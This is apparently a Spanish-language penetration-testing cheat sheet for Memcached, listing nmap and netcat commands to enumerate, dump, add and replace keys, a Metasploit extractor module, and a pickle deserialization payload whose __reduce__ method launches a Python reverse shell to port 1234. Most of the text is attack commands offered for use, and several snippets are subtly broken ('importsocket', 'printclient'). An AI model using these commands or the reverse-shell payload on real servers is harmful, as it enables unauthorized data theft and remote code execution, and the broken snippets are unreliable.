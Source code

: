 ## Info
### Nmap
```bash
nmap -p port --script memcached-info IP
```
### Netcat/Telnet
#### Conexion
```bash
nc IP PORT
```
#### Version 
```bash
echo -e 'version1\r\nquit\r\n' | nc IP PORT
```
#### Obtener la lista de keys 
```python
from pymemcache.client.base import Client
import pprint
client = Client(('IP', PORT))
pp = pprint.PrettyPrinter(indent=4)
for i in range(0 , 7):
  pp.pprint(client.stats("cachedump",str(i),"0"))
```
#### Obtener el valor de una key
```bash
echo -e 'get KEYNAME1\r\nquit\r\n' | nc IP PORT
```
##### JSONIFY Data usando pickle
```bash
echo -e "get data\r\nquit\r\n" | nc IP PORT > data
python -c 'import pickle;print pickle.load(open("data"));'
```
#### Obtener el numero total de parejas key value en el servidor
```bash
echo -e 'stats items1\r\nquit\r\n' | nc IP PORT | grep 'number '
```
Y sumamos los numeros de cada item 

##### Python Implementation

```python
python -c 'from pymemcache.client.base import Client; client = Client(("IP", PORT)); printclient.stats()["curr_items"]'
```
#### Añadir una clave-valor nueva
```bash
nc IP PORT
> add CLAVE 0 0 LENGHT
> VALUE 
```
#### Actualizar el valor de una clave
```bash
nc IP PORT
> replace CLAVE 0 0 LENGHT
> VALUE 
```
#### Dump

##### Bash
```bash
xargs -L1 -I% sh -c 'echo "get KEYNAME" | nc IP PORT'
for key in $(memcdump --server=IP); do echo ------ $key ------; memccat --server=IP $key; done
for key in $(memcdump --server=target-1); do echo ------ $key ------; memccat --server=target-1 $key; done
```
##### Metasploit module
```msf
auxiliary/gather/memcached_extractor
```
### Injections 
#### Libro de referencia 
```
https://www.blackhat.com/docs/us-14/materials/us-14-Novikov-The-New-Page-Of-Injections-Book-Memcached-Injections-WP.pdf
```
#### Python Pickle Serlization Attack

Ante un mensaje de error de pickle 
```python
import pickle
import subprocess
import os
from pymemcache.client.base import Client

class Shell(object):
    def __reduce__(self):
        return (os.system,("python -c 'importsocket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'&",))
        
client = Client(('IP', PORT))
client.set("pickled",pickle.dumps(Shell()))
```
